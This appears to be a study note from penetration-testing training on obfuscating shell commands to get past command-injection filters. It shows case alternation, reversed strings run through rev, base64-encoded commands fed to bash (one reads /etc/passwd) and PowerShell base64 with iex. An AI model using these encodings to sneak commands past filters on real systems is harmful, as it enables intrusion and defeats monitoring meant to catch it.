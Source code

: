 
# Advanced Command Obfuscation

## Case Manipulation

we can alternate between capital and normal letters

whoami we can rewrite as WhOaMi

on linux we have to use a command to turn all keys into lwoercase as linux is case sensitive.
```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```


## Reversed Commands

```shell-session
 echo 'whoami' | rev
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:

```shell
$(rev<<<'imaohw')
```

## Encoded Commands

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding

```shell-session
echo -n 'cat /etc/passwd | grep 33' | base64
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

```shell-session
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

Tip: Note that we are using `<<<` to avoid using a pipe `|`, which is a filtered character.

### on windows

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
